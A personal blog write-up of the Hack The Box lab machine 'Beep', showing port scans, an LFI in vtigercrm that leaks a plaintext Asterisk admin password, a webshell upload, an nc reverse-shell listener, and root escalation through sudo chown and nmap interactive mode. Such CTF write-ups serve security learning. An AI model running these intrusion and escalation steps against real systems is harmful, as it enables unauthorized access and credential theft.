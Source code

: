 ```yaml
---
layout: post
title:	"Beep Writeup"
date:	2018-01-07 21:30:00
categories:
    - blog
tags:
    - hackthebox
---
```


![Screenshot]({{ site.baseurl }}/images/2018-01-08-htb-beep/img0.png)

Hello,

this is my first writeup for Hack The Box platform, the machine was [Beep](https://www.hackthebox.eu/home/machines/profile/5).

Let's run nmap to see which services are running on the machine:

~~~
root@kali:~# nmap -sT -sV -p 1-65535 10.10.10.7 -A

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-08 12:27 EST
Nmap scan report for beep.localdomain (10.10.10.7)
Host is up (0.087s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       Postfix smtpd
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
746/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
~~~

There were a lot of services.

On port 443 there was Apache with elastix:

![Screenshot]({{ site.baseurl }}/images/2018-01-08-htb-beep/img1.png)

By using dirsearch I enumerated it's directories:

~~~
root@kali:/usr/share/wordlists/SecLists/Discovery/Web_Content# dirsearch -u https://10.10.10.7/ -w raft-medium-directories.txt -e php,txt

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php, txt | Threads: 10 | Wordlist size: 30005

Error Log: /opt/dirsearch/logs/errors-18-01-08_15-16-00.log

Target: https://10.10.10.7/

[15:16:01] Starting: 
[15:16:02] 301 -  309B  - /admin  ->  https://10.10.10.7/admin/
[15:16:02] 301 -  310B  - /images  ->  https://10.10.10.7/images/
[15:16:02] 301 -  311B  - /modules  ->  https://10.10.10.7/modules/
[15:16:02] 301 -  310B  - /themes  ->  https://10.10.10.7/themes/
[15:16:03] 301 -  308B  - /help  ->  https://10.10.10.7/help/
[15:16:05] 301 -  307B  - /var  ->  https://10.10.10.7/var/
[15:16:05] 301 -  308B  - /mail  ->  https://10.10.10.7/mail/
[15:16:06] 301 -  310B  - /static  ->  https://10.10.10.7/static/
[15:16:07] 301 -  308B  - /lang  ->  https://10.10.10.7/lang/
[15:16:10] 301 -  308B  - /libs  ->  https://10.10.10.7/libs/
[15:16:19] 301 -  309B  - /panel  ->  https://10.10.10.7/panel/
[15:16:58] 301 -  311B  - /configs  ->  https://10.10.10.7/configs/
[15:23:39] 301 -  314B  - /recordings  ->  https://10.10.10.7/recordings/
[15:26:38] 301 -  313B  - /vtigercrm  ->  https://10.10.10.7/vtigercrm/
[15:26:42] 200 -    2KB - /
~~~

I found vtigercrm 5.1.0:

![Screenshot]({{ site.baseurl }}/images/2018-01-08-htb-beep/img2.png)

This version is vulnerable to LFI.
With [goWAPT](https://github.com/dzonerzy/goWAPT) I enumerated all the files:

![Screenshot]({{ site.baseurl }}/images/2018-01-08-htb-beep/img3.png)

In the /etc/passwd file we can see the user Fanis:

![Screenshot]({{ site.baseurl }}/images/2018-01-08-htb-beep/img4.png)

After some research on google about asterisk, I got the etc/asterisk/manager.conf file:

~~~
;
; AMI - Asterisk Manager interface
;
; FreePBX needs this to be enabled. Note that if you enable it on a different IP, you need
; to assure that this can't be reached from un-authorized hosts with the ACL settings (permit/deny).
; Also, remember to configure non-default port or IP-addresses in amportal.conf.
; 
; The AMI connection is used both by the portal and the operator's panel in FreePBX.
;
; FreePBX assumes an AMI connection to localhost:5038 by default.
;
[general]
enabled = yes
port = 5038
bindaddr = 0.0.0.0
displayconnects=no ;only effects 1.6+

[admin]
secret = jEhdIekWmdjE
deny=0.0.0.0/0.0.0.0
permit=127.0.0.1/255.255.255.0
read = system,call,log,verbose,command,agent,user,config,command,dtmf,reporting,cdr,dialplan,originate
write = system,call,log,verbose,command,agent,user,config,command,dtmf,reporting,cdr,dialplan,originate

#include manager_additional.conf
#include manager_custom.conf
~~~

I used the credential admin:jEhdIekWmdjE contained in this file to log in Elastix, Vtigercrm and FreePBX.

After some research on Google, I was able to upload a backdoor by using this [vulnerability](https://www.exploit-db.com/exploits/38345/) in vtiger crm:

![Screenshot]({{ site.baseurl }}/images/2018-01-08-htb-beep/img5.png)

With python I got a reverse shell and the user flag:

~~~
root@kali:~/Desktop/webshell# nc -lvp 80
listening on [any] 80 ...
connect to [10.10.14.6] from beep.localdomain [10.10.10.7] 46497
sh: no job control in this shell
sh-3.2$ ls
logo.txt
sale.jpeg
vtiger-crm-logo.jpg
webshell.php
sh-3.2$ python -c "import pty;pty.spawn('/bin/bash')"
bash-3.2$ cat /home/fanis/user.txt
cat /home/fanis/user.txt
~~~

There were different ways to get the root flag:

~~~
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ sudo /bin/chown -r asterisk /root
sudo /bin/chown -r asterisk /root
/bin/chown: invalid option -- r
Try `/bin/chown --help' for more information.
bash-3.2$ sudo /bin/chown -R asterisk /root
sudo /bin/chown -R asterisk /root
bash-3.2$ cat /root/root.txt
cat /root/root.txt
~~~


~~~
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !id
!id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
waiting to reap child: No child processes (10)
nmap>
~~~

Bye!!!
